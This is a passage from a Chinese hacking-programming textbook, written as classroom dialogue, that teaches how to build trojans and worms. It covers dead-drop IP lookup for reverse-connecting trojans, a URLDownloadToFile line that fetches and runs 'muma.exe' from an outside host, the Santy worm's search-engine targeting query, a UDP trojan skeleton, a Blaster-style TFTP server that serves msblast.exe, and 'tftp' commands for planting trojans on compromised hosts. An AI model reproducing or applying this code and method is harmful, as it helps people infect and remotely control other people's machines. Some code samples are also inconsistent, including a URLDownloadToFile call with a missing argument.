“哎？SMTP 除了发送密码，在木马中还有什么作用吗？”小菜们问道。

“呵呵，大家先想想，一般人的电脑连接 Internet，或者通过 ADSL，或者通过拨号。这样的上网方式，每次得到的 IP 都不相同。假设我们第一次安装木马成功，过两天后，肉鸡的 IP 变了，那我们该如何连接到有我们木马的机器呢？”

“唔……”

“我们也讲过反弹木马，反弹木马的隐藏性和成功率比较高，但如果我们自己的机器——控制端的 IP 会变，甚至每次都不一样，那么反弹木马用最初设置的 IP 进行连接，就会无法成功，这样木马岂不成了断线的风筝嘛。”

“哇！是啊！怎么办呢？”小菜们反应过来。

“大家想想怎么办呢？”老师反问道。

“嗯，为了保持自己的 IP 不变，一直不关机。”小菜A横下一条心。

“是个办法，不过你的机器或电费不能承受吧。而且也不保险，万一停电、断网……就完了。”老师把这个建议否决了。

“唔，我们考虑一个算法，让反弹木马能够计算出下次控制端的 IP。”

“我们不能乱用算法这个称呼，算法并不是万能的，必须是要能够解决问题的才能说是算法。”老师说道，“ADSL 是 ISP 商家按当时的情况分配的，我们并不能预先算出来，而且每次相隔的也许比较大，也不好一一地尝试。”

“噢，每次启动服务端，我们就把自己的 IP 放在一个 FTP 服务器上！”小菜A眼睛一转说道，“FTP 服务器的 IP 是固定的，每次反弹木马启动后，就先连这个 FTP，得到控制端现在的 IP！”

“对！是个好办法。”老师满意地说道。

“哦，那我们也可以放在一个邮箱里面！”小菜B也说道，“FTP 可以，SMTP 也可以嘛。”

“也可以放在网站上！论坛上！BBS 上！”小菜C说道。

“嗯，大家说得很好，也考虑了很多办法。其实这些方法的实质，都是利用一个不变的 IP，来传送我们要变的 IP，示意如图 4.11。”

“每次控制端打开时，都自动更新服务器上存放的 IP 地址为此时自己的 IP 地址；而被控端在连控制端之前，先从服务器上获取控制端最新的 IP 值，然后再连接。这样保证无论控制端、被控端的 IP 地址如何变，都能建立正确的连接。”


“当然这个思路也有个弊端，如果第三方服务器的 IP 变了，那么被控端就像断了线的风筝，再也找不回来了。所以存放 IP 地址的服务器最好有个备份的选择。”

“使用 SMTP 协议发送邮件的程序已经讲解过了，而使用 POP3 协议接收邮件——IP 地址的程序就留给大家啦！大家先理解协议，构想整个程序流程，最后再编程实现。我们接着看其他重要的协议吧。”

### 4.2.4 HTTP 协议及利用

“东西也下载了，邮件也发了，除了这些，我们上网还做什么呢？”

“嗯，看新闻……” “看体育结果！” “上 Google 搜索感兴趣的东西！！！”

“好，大家用什么工具看网页呢？”

“IE。” “腾讯 TT。” “FireFox。”

“无论是什么，网页上的数据，都是通过 HTTP 协议传过来的，浏览器只是负责解析，把内容显示出来。所以 HTTP 协议也是我们很常用的协议。”

#### 4.2.4.1 协议简介

HTTP 协议即超文本传输协议。由于 HTTP 协议支持的服务不限于 WWW，还可以是其它服务，因而 HTTP 协议允许用户在统一的界面下，采用不同的协议访问不同的服务，如 FTP、Archie、SMTP、NNTP 等。另外，HTTP 协议还可用于名字服务器和分布式对象管理。

HTTP 是一个属于应用层的面向对象的协议，由于其简捷、快速的方式，适用于分布式超媒体信息系统。它于 1990 年提出，经过几年的使用与发展，得到不断地完善和扩展。

- HTTP 协议的主要特点可概括如下：
  1. 支持客户／服务器模式。
  2. 简单快速：客户向服务器请求服务时，只需传送请求方法和路径。请求方法常用的有 GET、HEAD、POST。每种方法规定了客户与服务器联系的类型不同。由于 HTTP 协议简单，使得 HTTP 服务器的程序规模小，因而通信速度很快。
  3. 灵活：HTTP 允许传输任意类型的数据对象。正在传输的类型由 Content-Type 加以标记。
  4. 无连接：无连接的含义是限制每次连接只处理一个请求。服务器处理完客户的请求，并收到客户的应答后，即断开连接。采用这种方式可以节省传输时间。
  5. 无状态：HTTP 协议是无状态协议。无状态是指协议对于事务处理没有记忆能力。

在 HTTP 中，“客户”与“服务器”是一个相对的概念，只存在于一个特定的连接期间，即在某个连接中的客户在另一个连接中可能作为服务器。

HTTP 服务器与 HTTP 客户机之间的会话如下图所示，它分四个过程：建立连接、发送请求信息、发送响应信息、关闭连接，如图 4.12。


##### 1. 客户机与服务器建立联系

与服务器建立连接，就是与 SOCKET 建立连接，因此要指定机器名称、资源名称和端口号，可以通过 URL 来提供这些信息。URL 的格式为“HTTP://<IP地址>/[端口号]/[路径][?<查询信息>]”，资源的缺省值是 INDEX 或 DEFAULT，端口号缺省为 80。

##### 2. 发送请求给服务器

请求信息包括希望返回的文件名和客户机信息。客户机信息以请求头发送给服务器。请求头包括 HTTP 方法和头字段。HTTP 方法常用的有 GET、HEAD、POST。

- 头字段包括：
  - DATE：请求发送的日期和时间
  - PRAGMA：用于向服务器传输与实现无关的信息。这个字段还用于告诉代理服务器，要从实际服务器而不是从高速缓存取资源
  - FORWARDED：可以用来追踪机器之间，而不是客户机和服务器的消息。这个字段可以用来追踪在代理服务器之间的传递路由。
  - MESSAGE-ID：用于唯一地标识消息。
  - ACCEPT：通知服务器客户所能接受的数据类型和尺寸（*/* 表示可以接受所有类型的数据）。
  - AUTHORIZATION：向服务器提供旁路安全保护和加密机制，若服务器不需要这个字段，则不提供这个字段。
  - FROM：当客户应用程序希望向服务器提供有关其电子邮件地址时使用。
  - IF-MODIFIED-SINCE：用于提供条件 GET。如果所请求的文档自从所指定的日期以来没有发生变化，则服务器应不发送该对象。如果所发送的日期格式不合法，或晚于服务器的日期，服务器会忽略该字段。
  - REFERER：向服务器进行资源请求用到的对象。
  - MIME-VERSION：用于处理不同类型文件的 MIME 协议版本号。
  - USER-AGENT：有关发出请求的客户信息。

打开一个连接后，客户机把请求消息送到服务器的停留端口上，完成提出请求动作。

```c
GET http://www.scu.edu.cn/index.htm HTTP/1.0
```

##### 3. 服务器对请求作出应答

服务器收到一个请求，就会立刻解释请求中所用到的方法，并开始处理应答。服务器的应答消息也包含头字段形式的报文信息。报文第一行是状态行，格式为 `<HTTP版本号><状态代码><解释短语>`。状态码是个三位数字码，分为五类：

- 1xx 保留
- 2xx 表示请求成功地接收
- 3xx 为完成请求客户需进一步细化请求
- 4xx 客户错误
- 5xx 服务器错误

解释短语是对状态码的解释。报文最后是实体信息，即客户请求得到的 HTTP 服务器上的资源内容。

##### 4. 关闭连接

客户和服务器双方都可以通过关闭套接字来结束 TCP/IP 对话。

“说了这么多，我们举个实际的例子，看看 HTTP 协议是如何工作的。”老师说道。

“我们 telnet 一个网站，比如 scu.edu.cn，注意要登录 80 端口。”

“然后，没有回显地输入 GET HTTP1.0，敲两次回车，就可以得到主页的内容，如图 4.13。”


“哦，数据怎么乱七八糟的？”

“嗯，看起来很乱，但其实是按照 HTML 协议写好的，如果我们用浏览器访问，浏览器就会帮我们分析这些数据并显示出来。”

老师歇会儿后说道：“浏览器处理这些 HTML 的值时如果没有注意，没进行安全判断，就有可能出现漏洞，被攻击者利用。”

“哦，怪不得 IE 这么多漏洞，HTML 语法这么多，只要有一点不正确，就出现问题了。”

“是的，引起这些安全漏洞的原因是多方面的，而根本的原因是命令和数据没有分开。简单地介绍了 HTTP 协议后，我们看看在木马中的利用吧。”

#### 4.2.4.2 在木马中的利用

“HTTP 在我们实际的生活中非常重要，有很多基于数据库和网页的信息管理系统。但 HTTP 协议在我们木马中的使用比较少。”

“原因是 HTTP 需要服务／客户端，且不保存状态，所以处理起来比较麻烦。”

“一般的使用是利用现成的 HTTP 服务器，在木马中实现 HTTP 的客户端功能，通过网页、网站，获取一些信息，比如控制命令等。”

“如同 SMTP 一样，我们可以把控制端的 IP 放在一个网页上，木马可以通过访问该网页得到，实现反弹连接。”

“我们也可以把升级版本的木马放在一个网站上，客户端自动下载，完成自动更新。”

“这些利用一个函数 URLDownloadToFile 来完成。”

函数原型：

```c
HRESULT URLDownloadToFile(
    LPUNKNOWN pCaller,
    LPCTSTR szURL,
    LPCTSTR szFileName,
    DWORD dwReserved,
    LPBINDSTATUSCALLBACK lpfnCB
);
```

参数：

- 第一个参数 `pCaller` 用来设置 COM 接口，如果调用程序不是 ActiveX，则设为 `NULL`。
- 第二个参数 `szURL` 指定下载的地址。
- 第三个参数 `szFileName` 指明保存的文件名。
- 第四个参数 `dwReserved` 为保留字段，设为 0。
- 第五个参数 `lpfnCB` 为指向 IBindStatusCallback 接口的指针。

说明：

返回为 S_OK 表明下载成功。

“加在木马程序中，就简单地为 `URLDownloadToFile(NULL, "http://ww0830.com/muma.exe", "c:\\ww.exe", NULL);``”

“然后分析下载的文件，执行下载的程序都可以。”

“除了这种简单的利用方法，我们还可以使用 HTTP 在木马中加入人工智能。现在出现的一种蠕虫利用方法，就是通过 Google、Baidu 等搜索引擎，得到漏洞网站列表，然后对漏洞网站进行感染传播。如果我们在木马中加入这部分功能，就能实现木马自动化的传播。”

“比如 Santy 蠕虫，利用论坛 phpBB 的漏洞传播，它从搜索引擎 Google 得到有漏洞的站点列表，从而进行攻击。”

“它的工作流程如下。”

- 检查当前已经感染到第几代，如果超过 3 代，则破坏整个站点，将蠕虫代码读入内存，删除文件系统中的自身文件；
- 测试 `http://www.google.com/advanced_search` 是否可以连接，如不可连接则退出；
- 修改传播代数值，准备继续传播；
- 构造攻击代码；
- 检测是否存在 `stop.it` 文件，如果存在则退出；
- 访问搜索引擎 Google，获取返回结果，构造攻击目标列表；
- 对目标列表中的攻击目标依次发送攻击代码；
- 启动被传送到攻击目标的攻击代码；

“Santy 构造的查询 Google 的请求是 `http://www.google.com/search?num=100&hl=en&lr=&as_qdr=all&q=allinurl%3A+%22viewtopic.php%22+%22topic%3D1234%27%22&btnG=Search`。”

“然后它分析返回的结果，仅保留 IP 地址或 URL，从而得到漏洞网站列表，并一一尝试攻击。”

“如果目标网站确实有漏洞，那么攻击后的结果如图 4.14。”


图 4.14

“HTTP 服务器返回的数据，都是 HTML 格式的。各种浏览器帮我们解析并显示。其实，我们也可以自己分析数据，提取出感兴趣的东西。比如这个 Santy 蠕虫，以及注入漏洞扫描器，工作原理都是这样，通过分析 HTTP 服务器返回的，都比较简单。”

老师补充道：“废话两句。Google 现在是很强大的！网页搜索、桌面搜索、Google Map、Google Earth、Froogle、Gmail 等很多产品一个比一个棒。而且还把微软亚洲研究院前院长李开复，微软下一代 Web 服务首席软件设计师马克·卢科夫斯基（Mark Lucovsky），Java 世界的 Joshua Bloch，BEA 的首席架构师 Adam Bosworth，Sun 服务器总设计师都挖过去了。”

“哇！Google 这么强？”

“Google 公司只找世界上的天才和最聪明的人，提供非常优良的工作环境。公司里有专门的厨师、按摩师，没有固定的上班时间……以最大的发挥每个人的创造性。”

小菜们充满了遐想。

“好了，希望有一天大家也能和那些天才们共事，不过首先的事情，是要让自己成为天才。”

#### 4.2.4.3 Google Earth 和 Web Service

“现在流行的 Web Service 也是基于 HTTP 的。该思想是把服务都做在服务器上，通过 HTTP 和 SOAP 提供接口，非常方便！”

“几年前 Web Service 还是一个效率低下的东西，无法引起人们的兴趣。但是现在带宽大量增长，内容更为动态化，Web Service 也逐渐越来越广泛地应用，使 Web 不仅作为一个信息平台，也可以作为一个服务平台。”

“比如，Google Earth 提供了 Web Service 接口，我们可以只写个简单的客户端，直接调用 Google Earth 提供的东西，就可以打造出我们自己掌上的 Google Earth 了！”

“这东西就像现在 PC 上的 API 一样，只不过是通过网络，由服务提供商维护，这样可以做得更强大，随时升级。”

“虽然 C++ 也可以写 Web Service 的客户端，但是用 .NET 平台比较方便，但是 X 没有给讲解 C# 的课时，所以把 Google Earth 的客户端程序给大家，自己下去看，调试调试。运行效果如图 4.15。”

“这里是 Bill Gates 的家。通过左右键、放大缩小键，我们就可以浏览整个地球了。”


图 4.15

“哦，太酷了！”

“说不定随着网络技术的不断发展，电脑退化成只要一个浏览器就可以了。任何东西都通过服务商在线提供，在线文件处理、在线管理控制、在线存储数据。”

“哇！听起来真是沟通无所不在了！不过……那微软不倒闭了吗？”

“呵呵，那是 Sun 的解决方案；微软的方案恰恰相反，它的想法是不断增强终端的功能，使每一台主机都成为一个强大的终端，可以完成任何的事情。”

“哦！真是针尖对麦芒啊！”

“是啊，技术究竟如何发展，我们拭目以待吧！无论我们投身于哪个阵营，都要符合自己的兴趣，做自己想做的事情，才能最好地实现自身的价值。”

## 4.3 UDP 协议和木马中的高级应用

“和 TCP 协议相对应的是 UDP 协议。UDP 是无连接、不可靠的协议，所以需要我们自己判断数据的正确性。”

### 4.3.1 UDP 木马

UDP 木马和 TCP 的木马差不多，只不过利用 UDP 来进行传输。

UDP 编程和 TCP 不一样，服务端没有 bind、accept、connect 建立连接的过程，而是建好 socket 后，直接用 sendto、recvfrom 来传送数据。其流程如图 4.16。


因为无连接，所以实现起来就比较简单。服务端我们先建立一个 socket，第二个参数要用 SOCK_DGRAM，第三个参数要用 IPPROTO_UDP，这样建立 UDP 无连接套接字，`sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);`（建立 UDP 套接字），然后绑定端口，使用 830 端口。

```c
struct sockaddr_in servaddr;
servaddr.sin_family = AF_INET; // IPv4 协议
servaddr.sin_addr.s_addr = ADDR_ANY; // 内核指定地址
servaddr.sin_port = htons(830); // 830 端口
bind(sockfd, (sockaddr *)&servaddr, sizeof(servaddr));
```

现在就等着接收数据了。我们先不做其他事情，接收到数据后，只是将其输出在屏幕上，并发送回去，以作测试。

```c
// 接收数据
int n = recvfrom(sockfd, mesg, 1024, 0, (sockaddr *)&cliaddr, &len);
mesg[n] = '\0';
printf("%s\n", mesg); // 打印出来
// 回送数据
sendto(sockfd, mesg, n, 0, (sockaddr *)&cliaddr, len);
```

# 黑客编程入门

当然，Windows Socket 编程需要先初始化 Socket DLL，合起来程序如下。

```c
int main(int argc, char **argv)
{
    WSADATA ws;
    // 初始化 WSA
    WSAStartup(MAKEWORD(2, 2), &ws);
    SOCKET sockfd; // 定义套接字
    struct sockaddr_in servaddr, cliaddr; // IPv4 套接口地址定义
    sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP); // 建立 UDP 套接字
    servaddr.sin_family = AF_INET; // IPv4 协议
    servaddr.sin_addr.s_addr = ADDR_ANY; // 指定地址
    servaddr.sin_port = htons(830); // 830 端口
    // 分配协议地址，绑定端口
    bind(sockfd, (sockaddr *)&servaddr, sizeof(servaddr));
    int len = sizeof(cliaddr);
    char mesg[1024];
    /* 接收发送数据 */
    for (;;)
    {
        mesg[0] = '\0';
        // 接收数据
        int n = recvfrom(sockfd, mesg, 1024, 0, (sockaddr *)&cliaddr, &len);
        mesg[n] = '\0';
        printf("%s\n", mesg); // 打印出来
        if (strcmp(mesg, "exit") == 0)
        {
            closesocket(sockfd);
            break;
        }
        // 回发数据
        sendto(sockfd, mesg, n, 0, (sockaddr *)&cliaddr, len);
    }
    return 0;
}
```

> “我们快试试吧！”小菜们迫不及待地说。

“好的，我们编译运行，然后进入 cmd 输入 **netstat -an**，可以看到 830 端口以 UDP 的形式打开了，如图 4.17、图 4.18。”


图 4.17

## 后门编程步步高


图 4.18

> “哦，我们 telnet 上吗？”

“这个就不能了，telnet 是 TCP 协议，所以客户端必须要我们自己编写了。”

“有了流程，客户端也比较简单。”

首先建立 socket：`sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);`，然后指明服务端的 IP 和端口。

```c
servaddr.sin_family = AF_INET; // IPv4
servaddr.sin_port = htons(830); // 830端口
/* 网络字节序的 IP 地址 */
servaddr.sin_addr.s_addr = inet_addr(argv[1]);
```

就可以向服务端发送命令和数据了。

```c
scanf("%s", sendline);
sendto(sockfd, sendline, strlen(sendline), 0, (sockaddr *)&servaddr, sizeof(servaddr));
```

和服务端的功能结合起来，完成发送和接收数据的功能。程序如下。

```c
int main(int argc, char **argv) // 命令行的第二个参数代表服务器地址
{
    SOCKET sockfd; // 套接字
    struct sockaddr_in servaddr; // 服务器地址结构
    if (argc != 2)
    {
        // 需要有服务端 IP 参数
        fprintf(stderr, "usage: client hostname\n");
        exit(1);
    }
    WSADATA ws;
    WSAStartup(MAKEWORD(2, 2), &ws); // 初始化 Windows Socket DLL
    servaddr.sin_family = AF_INET; // IPv4
    servaddr.sin_port = htons(830); // 830 端口
    /* 网络字节序的 IP 地址 */
    servaddr.sin_addr.s_addr = inet_addr(argv[1]);
    /* 建立 UDP 套接口 */
    sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    /* 回射客户端子程序，stdin 为标准输入/键盘 */
    // dg_cli(stdin, sockfd, (SA *)&servaddr, sizeof(servaddr));
}
```

```c
int n; // 读入字节数
char sendline[1024] = {0}, recvline[1024 + 1] = {0}; // +1：结束标志用
/* 从键盘读入一行 */
while (1)
{
    printf("cmd>");
    scanf("%s", sendline);
    /* 将读入行发送到服务器连接 */
    sendto(sockfd, sendline, strlen(sendline), 0, (sockaddr *)&servaddr, sizeof(servaddr));

    if (strcmp(sendline, "exit") == 0)
    {
        break;
    }

    // 从回射中读入，读入字节数为 n，不关心从何处读入
    n = recvfrom(sockfd, recvline, 1024, 0, NULL, NULL);
    recvline[n] = 0; /* recvline 字符串的结束标志 */
    printf("%s", recvline); // 输出到标准输出：显示器
} // while 循环结束，直到从键盘读入结束符“D”为止

return 0;
```

> “基本通信的框架就搭好了。”
>
> “啊，就这样啊？一点技术含量都没有？”
>
> “不是，其他的命令执行、木马客户端协议判断、多线程编程等，就和 TCP 木马一样，我再讲就重复了！大家可以自己添上去。”
>
> “不过 UDP 不可靠，有可能重传，也有可能多发，所以需要自己分析判断包的正确性。”

### 4.3.2 模仿冲击波，实现 TFTP 服务器

TFTP（Trivial File Transfer Protocol）为简单文件传输协议。之所以说简单，是因为它和 FTP（File Transfer Protocol，文件传输协议）相比，功能显得薄弱，但在实际使用中，却非常有用。大名鼎鼎的冲击波蠕虫病毒，也就是用 TFTP 完成传播的。

我们看看 TFTP 是如何工作的。以下载文件为例，在开始工作时，客户发送一个读请求给服务器；如果请求的文件能被读取，TFTP 服务器就返回一个块编号为 1 的数据分组。TFTP 客户发送一个块编号为 1 的 ACK。TFTP 服务器随后发送块编号为 2 的数据。TFTP 客户发回块编号为 2 的 ACK。重复这个过程，直到这个文件传送完。

> TFTP 是基于 UDP 的，其数据报有四种类型。
>
> 第一种是客户发出的是读或写请求，含有文件名和模式。操作码是 1 或 2。
>
> 第二种是服务器发送的数据，含有块编号和 512 字节的数据。操作码是 3。
>
> 第三种是客户发的回应，含有收到的块编号。操作码是 4。
>
> 第四种是错误信息，含有差错码和差信息。操作码是 5。

其类型如图 4.19，我们可以根据此编写出 TFTP 的服务器。

## 后门编程步步高


图 4.19

就可以在本机上执行 TFTP 客户端，和服务器传输文件了。

这一招经常被黑客使用：他们在自己主机上建一个 TFTP 服务器，进入别人的主机后，直接输：**tftp -i 自己ip get（put）FileName**，就可以实现文件上传或下载，如下载自己感兴趣的东东啊，或上传一个木马一类的。

然而冲击波等病毒中，它们用的是谁的 TFTP 服务器呢？肯定不会是用 TFTPD32 建立的服务器吧，那是谁建的服务器呢？

答案是：是病毒自己！在病毒程序中，自己实现了一个 TFTP 的服务器！

比如冲击波运行的时候，就是在本机上建一个 TFTP 服务器，等待别的机子来连。一旦有别的机子连过来，就把 **msblast.exe** 文件传过去！这就是它能在网络上的自我复制和传播的根本原因！

有了前面协议的分析，那我们模仿着冲击波，实现一个 TFTP 服务器吧（作者当然没有 **msblast.exe** 的源程序啦，这里根据的是反编译后的汇编代码写一个类似的 TFTP 服务器。作者写的完整的源程序参看附件。这里对流程和关键的代码进行解释）。

- 1. 首先，冲击波在本机上打开 69 端口，进行监听。

```c
int ret = WSAStartup(MAKEWORD(2, 2), &WSAData);
sock = socket(AF_INET, SOCK_STREAM, 0);
sockaddr_in ServerAddr;
ServerAddr.sin_family = AF_INET;
ServerAddr.sin_addr.s_addr = inet_addr(MyIp);
ServerAddr.sin_port = htons(69);
if (bind(sock, (struct sockaddr *)&ServerAddr,
    sizeof(struct sockaddr_in)) == SOCKET_ERROR)   // 绑定 69 端口
{
    printf("bind err!\n");
    closesocket(sock);
    WSACleanup();
    break;
}
```

- 2. 如果有别的主机连接 69 端口，则认为是在请求 **msblast.exe** 文件，将其传过去。

```c
real = recvfrom(sock, (char *)&RecvBuff, 80, 0, (struct sockaddr *)&Client, &alen);
if (real <= 0)
{
    printf("flag err!\n");
    closesocket(sock);
    WSACleanup();
    return 1;
}
FILE *fp;
```

```c
if ((fp = fopen("msblast.exe", "rb")) == NULL) // 打开 msblast.exe 文件
{
    printf("open file err!\n");
    closesocket(sock);
    WSACleanup();
    return -1;
}
```

- 3. 传输时要按照上面所说的协议，填充块编号，操作码是 3。

```c
while ((i = fread(FileBuff, sizeof(char), 512, fp)) > 0) // 每次传 512 字节
{
    time++;
    temp = htons(time);
    SendBuff.th_opcode = htons(3);              // 填充操作码，是 3
    SendBuff.th_block = htons(time);            // 填充块编号
    memcpy(&(SendBuff.th_data), FileBuff, i);   // 填充文件数据
    real = sendto(sock, (char *)&SendBuff, i + 4, MSG_DONTROUTE,
        (struct sockaddr *)&Client, sizeof(Client)); // 发送
}
```

- 4. 等待客户端的回应，如果是 ACK，操作码是 4；如果是 Error，操作码是 5。

```c
while (1)
{
    real = recvfrom(sock, (char *)&RecvBuff, 80, 0,
        (struct sockaddr *)&Client, &alen);
    if (RecvBuff.th_opcode == htons(5))     // 操作码是 5，出错退出
    {
        printf("Gener Err!\n");
        return -1;
    }

    if (RecvBuff.th_opcode == htons(4)
        && RecvBuff.th_block == htons(time))
        // 操作码是 4，且块编号为刚发的回应，继续发送下一块数据
        break;
}
```

哈哈，这样我们也实现了一个 TFTP 的服务器了。要注意的是，这个冲击波蠕虫建立 TFTP 的方式和 Nimda 是一样的，不管请求的文件名是什么，都返回蠕虫文件。所以这个 TFTP 服务器是不会导致系统文件泄露的。

好了，现在我们有了建立 TFTP 服务器的程序，那冲击波是如何在网络上自我传播的呢？这个答案是——利用系统的漏洞！

冲击波运行时，分成了两个线程。

其中一个线程功能就是使用上面介绍的代码，在本机上绑定并监听 69 端口，建立一个 TFTP 服务器。如果有其他主机连接这个服务器，则会把 msblast.exe 文件传送过去。

另一个就是攻击线程，它向其他主机的 135 端口发送攻击代码——shellcode，如果其他主机有系统漏洞，就会执行攻击代码。而它的攻击代码是精心构造的，所完成的功能就是执行 **TFTP -i ip GET msblast.exe**，去下载冲击波程序，下载完毕后并且执行它，这样就完成了冲击波在网络上的从一台主机向另一台主机的复制。如果有漏洞的主机比较多，则传播速度是相当快，危害也相当大。

### 4.3.3 P2P 和 UDP Hole

“前面的内容，大多都是基于 C/S 模式，即客户端/服务器模式，也是现实中最常用的模式。”老师说道，“但现在，一种网络结构正悄悄地兴起，并且逐渐流行，成为最近研究的热门。”

“哦？是什么技术呢？”

老师没有说话，问道：“大家有在网上看超女的时候吗？”

“有啊！”

“那用的是什么软件呢？”

“用 PPLive 啊！”

“那 PPLive 用的什么技术呢？”

“哦，我明白了，是 P2P 技术吧。”

“对！就是 P2P 技术！我们来看看 P2P 技术，以及运用中遇到的问题和解决办法吧。”

#### 4.3.3.1 P2P 简介

P2P 技术，也称为对等网络（Peer to Peer）技术，这是一种网络结构的思想。它与客户端/服务器（Client/Server）结构有本质的区别。

P2P 中不存在中心服务器。PC 用户之间，不经过中继设备直接交换数据或服务，每一个节点（peer）同时具有信息消费者、信息提供者和信息通信等功能。P2P 技术可以让用户直接连接到其他计算机，进行文件或其他信息的共享与交换，同时在其他方面，比如深度搜索、分布计算、协同工作等，也有很大用处。

P2P 技术和 C/S 相比，有明显的特点。不存在中心服务器，所以没有服务器的瓶颈问题；用户既是信息消费者，也是信息提供者，这样信息的来源就很宽广，可以充分利用网络上的资源。

老师说道：“比如，对于 PPLive 来说，大家同时使用起来看超女，你既是资源的使用者——接收多个人的连接，同时，你也是资源的提供者——你给别人提供资源。从而人越多，效果就越好。”

“嗯，怪不得下载说明上写着：使用网状模型，有效解决了当前网络视频点播服务的带宽和负载有限问题，实现用户越多，播放越流畅的特性。的确，人越多，资源的来源就愈多，效果就越好了。P2P 真是伟大的发明啊。”

“嗯，但现在 NAT 广泛使用，却给 P2P 的应用带来了问题。”

#### 4.3.3.2 NAT 简介

IP 地址分为两大分类，一类是私有 IP 地址，也称作内网 IP 地址，以 172、192.168 开头。分配的 IP 地址在全球不具有唯一性，也因此无法被其他外网主机直接访问。另一类是非私有的 IP 地址，称作公网 IP 地址，具有全球唯一的 IP 地址，能够直接被其他主机访问。

随着 Internet 的不断发展，IPv4 的公网 IP 地址数目越来越少，接近枯竭的状态。为了解决这个问题，人们引入了 NAT——网络地址转换解决方案。

NAT 最初的目的是为使用内网 IP 地址的计算机提供通过少数几台具有公网 IP 地址的计算机访问外部网络的功能。NAT 负责将某些内网 IP 地址的计算机向外部网络发出的 IP 数据包的源 IP 地址转换为 NAT 自己的公网 IP 地址，目的 IP 地址不变，并将 IP 数据包转发给路由器，最终到达外部的计算机。同时负责将外部的计算机返回的 IP 数据包的目的 IP 地址转换为内网的 IP 地址，源 IP 地址不变，并最终送达到内网中的计算机。但这样同一个公网 IP 地址，某个时间只能由一台私有 IP 地址的计算机使用，如图 4.20。


# 黑客编程入门

于是 NAPT（The IP Network Address/Port Translator）应运而生，NAPT 实现了多台私有 IP 地址的计算机可以同时通过一个公网 IP 地址来访问 Internet 的功能。NAPT 负责将某些内网 IP 地址的计算机向外部网络发出的 TCP/UDP 数据包的源 IP 地址转换为 NAPT 自己的公网 IP 地址，源端口转为 NAPT 自己的一个端口，目的 IP 地址和端口不变，并将 IP 数据包发给路由器，最终到达外部的计算机。同时负责将外部计算机返回的 IP 数据包的目的 IP 地址转换为内网的 IP 地址，目的端口转为内网计算机的端口，源 IP 地址和源端口不变，并最终送达到内网中的计算机，如图 4.21。


“我们一般都把 NAT 和 NAPT 都称为 NAT。”老师说道：“为了安全性，只能由 NAPT 内的计算机主动向 NAPT 外部的主机发起连接，外部的主机想直接和 NAPT 内的计算机建立连接是不被允许的。”

“当 NAPT 收到一个外部连接的时候，会查是否有内网向对应的 IP 和端口发起过连接，如果没有记录，就认为是非法连接，并丢弃掉，如图 4.22。”


“NAT 的出现缓解了 IP 地址危机，也提高了安全性，但给 P2P 带来了问题。因为在 NAT 后的主机不能被外面的机器主动连接，所以资源来源很少，发挥不出 P2P 的优势。”

#### 4.3.3.3 NAT Hole

我们来看看，当 A、B 两端都在公网，拥有外网 IP 地址时，无论 A 连 B，还是 B 连 A，都可以顺利成功，如图 4.23。

当进入到 IPv6 的时代，IP 地址的个数几乎是无穷大，就可以实现这个梦想。但在现在 IPv4 的时代，NAT 大行其道，当 A、B 有一个在 NAT 后面，比如 B 在 NAT 后面，而 A 拥有外网 IP 的时候，A 主动发起向 B 的连接，当到达 B 的 NAT 的时候，B 的 NAT 没有内部机器外连的记录，就认为该外部连接非法，阻止该连接，连接就会失败；但 B 向 A 主动发起连接，就可以成功。所以在这种情况下，连接还是可以成功，如图 4.24。


但 A、B 两端都在 NAT 后时，情况就变得很麻烦，无论是 A 主动向 B 发起连接，还是 B 主动向 A 发起连接，都会被阻止，因而无法建立起连接，如图 4.25。”

## 后门编程步步高


图4.25

“这个时候，我们可以采取两种方法解决。一种方法是通过服务器中转，另一种方法是加入一台第三方的机器 S，利用 UDP 的特性，让两端都在 NAT 后的主机能建立起直接的连接。”

“啊？这么神奇？怎么实现的？”

“我们用一个第三方的服务器 S 来发现 A 和 B 在各自 NAT 上的 IP 和端口，辅助他们建立直接连接。”

“利用 UDP 穿透 NAT 的流程如下：A 向服务器 S 发起连接，并获取自己的 IP 地址和端口发给服务器；服务器 S 发现 A 方 NAT 外部的 IP 和端口，并记录。B 向服务器发起连接，并获取自己的 IP 地址和端口发给服务器；服务器 S 发现 B 方 NAT 外部的 IP 和端口，并记录。”

当 A 要向 B 发起连接的时候，发请求给服务器 S；服务器 S 将 B 的外网 IP 和端口发给 A，也把 A 的外网 IP 和端口发给 B；A 以连接服务器同样的端口向 B 的外网地址和端口发起连接；同时，B 也以连接服务器同样的端口向 A 的外网地址和端口发起连接，如图4.26。


图4.26

NAT 的规则，对于同一台内部机器的同一个 UDP 端口，NAT 不会开启另一个端口，而是使用同一个 NAT 端口。所以，A 向 B 发送 UDP 数据时，使用连接服务器时同样的端口，那么 NAT 上开启的端口也一样。同样地，B 也一样。那么当 A 的数据包到达 B 的 NAT 时，如果 B 的包还没有发出，那么 B 的 NAT 还没有内部主动外连的记录，就会把该连接拒掉；但当 B 的包到达 A 的 NAT 时，A 的 NAT 发现有 A 的包先连出去的记录，就会被欺骗地认为这是 B 的响应，从而放行。这样 A 和 B 就用带点欺骗的方法，建立了直接连接，如图4.27。

“哦，原理清楚了，那编程如何实现呢？难不难啊？”


图4.27

“编程最重要的是思路，明白了思路，编程只是解决细节上的东西。在客户端，完成的功能是填充自己的 IP 地址和端口，并标上自己的名字，发给服务端。”

“在客户端填充 IP 地址和端口这部分，先用获得最佳地址的方法得到内部 IP，端口因为是自己指定的，所以客户端自己知道，就可以按该数据结构进行填充。”

```c
typedef struct STUNN
{
    int messageID;          // 消息类型
    char name[32];          // 本机的标志符
    DWORD addrIn;           // 客户端填充的内部地址
    unsigned int portIn;    // 客户端填充的内部端口
    DWORD addrEx;           // 服务端发现外部地址后，填充
    unsigned int portEx;    // 服务端发现外部端口后，填充
} STUNN;
```

用前面讲的方法得到最佳 IP 地址，是按网络顺序的 DWORD 型。

```c
DWORD best = RetrieveBestInterface();

// 得到最佳 IP 地址的函数
DWORD RetrieveBestInterface(void)
{
    DWORD dwBestIndex = INVALID_ADDRESS;
    // 使用 GetBestInterface 得到最佳 IP 的序号
    DWORD dwResult = GetBestInterface(inet_addr(DEFAULT_DESTINATION),
        &dwBestIndex);
    if (dwResult == NO_ERROR)
    {
        // 调用 RetrieveByIndex 函数根据序号得到 IP 地址
        return RetrieveByIndex(dwBestIndex);
    }
    return INVALID_ADDRESS;
}

